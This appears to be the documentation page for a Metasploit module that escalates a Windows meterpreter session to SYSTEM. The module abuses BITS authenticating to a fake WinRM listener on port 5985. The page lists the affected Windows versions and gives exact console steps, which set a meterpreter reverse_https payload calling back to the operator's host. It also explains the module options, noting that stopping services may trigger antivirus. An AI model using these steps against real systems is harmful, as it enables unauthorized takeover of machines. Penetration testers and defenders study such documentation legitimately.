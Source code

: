## Vulnerable Application

Windows 10 and Windows servers where WinRM is not running.

Labs experiment has shown that Windows 7 is not vulnerable because BITS service does not attempt to shoot on
WinRM port (see **Module Description** section of this document). Windows XP has not been tested, but if Windows 7 is not
vulnerable, it is likely neither its case.

Regarding Windows 10 and Windows servers, **the availability of port 5985 is a necessary and sufficient condition for
being vulnerable**.

This module exploits BITS behavior which tries to authenticate on local WinRM server (port 5985) even if this service is not running.
As this module runs a fake service on WinRM port to steal a SYSTEM token, this port must be available.
However, please note that WinRM service is natively running on windows servers preventing to run this exploit successfully.

Nevertheless, if WinRM service is disabled by an admin, or just killed, the operating system becomes vulnerable.

## Verification Steps

1. get a meterpreter session which has either SE_IMPERSONATE_NAME or SE_ASSIGNPRIMARYTOKEN_NAME privilege.
1. Do: `use exploits/windows/local/bits_ntlm_token_impersonation`
1. Do: `set SESSION <previous meterpreter session>`
1. Do: `set PAYLOAD windows/meterpreter/reverse_https`
1. Do: `set LHOST <your ip>`
1. Do: `set LPORT <your port>`
1. Do: `exploit`
1. A new meterpreter session should pop.

## Options

HOST_PROCESS &#8594; The process which will be launched as SYSTEM and execute metasploit shellcode.
This process should normally be hidden because launched without graphical interface. However, during lab experiments, some
processes has shown persistent screen effects. For instance, experiments with calc.exe was tested and a
buggy unresponsive window appeared and persisted until next reboot. Default choice is notepad.exe and it has not shown any
screen effects during lab experiments.

SESSION &#8594; index of the previous meterpreter session in through of which the exploit will be run.

SHUTDOWN_SERVICES &#8594; This boolean determines if ruby module should attempt to terminate WinRM and BITS if they
are found running. Indeed, both services must be down for the exploit to succeed (WinRM because we want to put a fake WinRM
service listening on its port, and BITS because the vulnerable behavior occurs at its startup). Default value is false for
multiple reasons. First the exploit is designed to wait for BITS to terminate by itself and you may get a shell even if it is
still running at the end of check. Secondly, in common usecases (previous meterpreter session running as LOCAL SERVICE), you
don't have sufficient privileges to do that. You only can do it if you are in administrator group. Thirdly, attempting to
terminate a service may trigger antiviruses, may be logged and may cause problems on the target system.
